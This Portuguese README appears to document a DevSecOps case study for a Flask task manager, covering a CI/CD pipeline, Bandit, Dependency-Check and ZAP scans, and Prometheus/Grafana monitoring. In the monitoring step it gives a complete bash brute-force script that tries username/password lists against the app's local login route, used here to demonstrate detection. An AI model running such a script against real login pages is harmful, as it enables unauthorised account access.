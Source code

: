 ## INTRODUÇÃO

Este estudo de caso se refere a implementação e segurança de um sistema de gerenciamento de tarefas pessoais, integrando processos de SDLC, DevOps e DevSecOps para garantir eficiência e segurança.
<hr>


### ETAPA 1: PLANEJAMENTO E DEFINIÇÃO DE REQUISITOS

1. Clonar o projeto e instalar das dependências a partir do requiriments.txt:

```
Flask==2.3.2
Flask-Bcrypt==1.0.1
Flask-Login==0.6.3
Flask-SQLAlchemy==3.0.5
Flask-WTF==1.1.1
WTForms==3.1.1
Jinja2==3.1.2
werkzeug==2.3.3
coverage
python-dotenv
prometheus-flask-exporter
```
<br />

2. Construir o diagrama para entender o domínio do problema:

![dfd](https://github.com/user-attachments/assets/6809cba3-bd94-4042-beb3-96beb5435c44)

<hr>

### ETAPA 2: DESENVOLVIMENTO DO SISTEMA

**Branches:**
- `master`: produção  
- `development`: desenvolvimento  
- `staging`: homologação

**Ferramentas Utilizadas:**
- Visual Studio Code
- GitLab
- Docker
- Python
- Pytest
- Unittest
- Zed Attack Proxy
- Bandit
- OWASP Dependency-Check
- OWASP ZAP
- Hydra
- Prometheus
- Grafana

1. Implementação do Dockerfile:

![dockerfile](https://github.com/user-attachments/assets/2c5f592a-185b-4f68-b372-33077d93eed0)


2. Aplicação executada na porta 5000:

   ![app](https://github.com/user-attachments/assets/815bb208-495e-4b0b-9931-5ea3d2c150e5)


<hr>

### ETAPA 3: IMPLEMENTAÇÃO DE UM PIPELINE CI/CD

1. Implementação do build e deploy na pipeline:

![gitlabci](https://github.com/user-attachments/assets/8d68bae7-73df-4b91-9e75-5c012a159177)


2. Pipeline em execução no GitLab:

![pipeline-initial](https://github.com/user-attachments/assets/de446dc6-f90a-4192-a62c-e58366d52a2c)


<hr>

### ETAPA 4: ANÁLISE ESTÁTICA DE CÓDIGO (SAST)

1. Implementação do Bandit na pipeline:
   
![bandit-artifect](https://github.com/user-attachments/assets/f6a7f30a-d20f-41cb-a541-b2c95c493182)


2. Artefato gerado mostrando dados sensíveis expostos na aplicação:

![artefact-zap-attack-tools](https://github.com/user-attachments/assets/92ed0c4f-d63e-4f4b-a281-3e8e05ded057)


3. Correção no código da falha capturada pelo Bandit:

![fixenv](https://github.com/user-attachments/assets/637a10d4-24c7-47de-8d1c-e91db4f988c0)


4. Implementação do OWASP Dependency Check na pipeline:
   
![owasp-dependecy-check](https://github.com/user-attachments/assets/03502964-4072-4e84-8c6b-45abab2dd431)


5. Artefato gerado com vulnerabilidades no código JavaScript:

![artifect-dependency-check](https://github.com/user-attachments/assets/c86fa7fb-8759-4973-af40-5e5877b0c09e)

<hr>

### ETAPA 5: ANÁLISE DINÂMICA DE SEGURANÇA (DAST)

1. Foi utilizada a aplicação Zed Attack Proxy (ZAP) para fazer uma varredura rápida na aplicação:

![zap-attack-tools](https://github.com/user-attachments/assets/96d41aad-6ea6-4780-b00f-a0060b2d3ac4)


2. Artefato gerado mostrando as vulnerabilidades e níveis de risco:
   
![artefact-zap-attack-tools](https://github.com/user-attachments/assets/0484436e-463d-4849-a0ef-25fd2e44ac00)

<hr>

### ETAPA 6: ENTREGA CONTÍNUA (CD)

1. Implementação da etapa de revisão de código na pipeline:

![review-pipeline](https://github.com/user-attachments/assets/935989ed-c41e-4851-8707-272e25f47020)


2. Implementação do OWASP ZAP para executar em toda a pipeline na homologação:


![owasp-zap](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/images/dast.png)
<hr>

### ETAPA 7: MONITORAMENTO

1. Implementação do Prometheus e Grafana na produção:

![prometheus-grafana](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/grafana-prometheus.png)

2. Implementação do ataque de força bruta em bash:

```
#!/bin/bash

URL="http://localhost:5000/login"   
USERNAMES="usernames.txt"        
PASSWORDS="passwords.txt"       

if [[ ! -f "$USERNAMES" || ! -f "$PASSWORDS" ]]; then
  echo "Os arquivos usernames.txt ou passwords.txt não foram encontrados."
  exit 1
fi

while IFS= read -r username; do
  while IFS= read -r password; do
    echo "Tentando login com Username: $username e Password: $password"    
 
    response=$(curl -s -X POST -d "username=$username&password=$password" "$URL")    
   
    if [[ $response == *"Login successful"* ]]; then
      echo "SUCESSO! Username: $username | Password: $password"
      exit 0
    fi
  done < "$PASSWORDS"
done < "$USERNAMES"
```
<br />
   
3. Acompanhamento pelo Grafana com o ataque de bruta force em execução na rota de login:

![monitory](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/monitory.png)
<hr>

### ETAPA 8: FEEDBACKS

1. A aplicação é antiga e precisou que algumas bibliotecas fossem atualizadas;
   
2. Foi corrigida uma das vulnerabilidades críticas capturada pelo bandit;
   
3. Testes funcionais e de integração foram implementados na etapa de homologação 
   
4. A pipeline foi testada de ponta a ponta, do desenvolvimento a homologação e produção:

![pipeline_full](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/pipeline-finished.png)

<br />
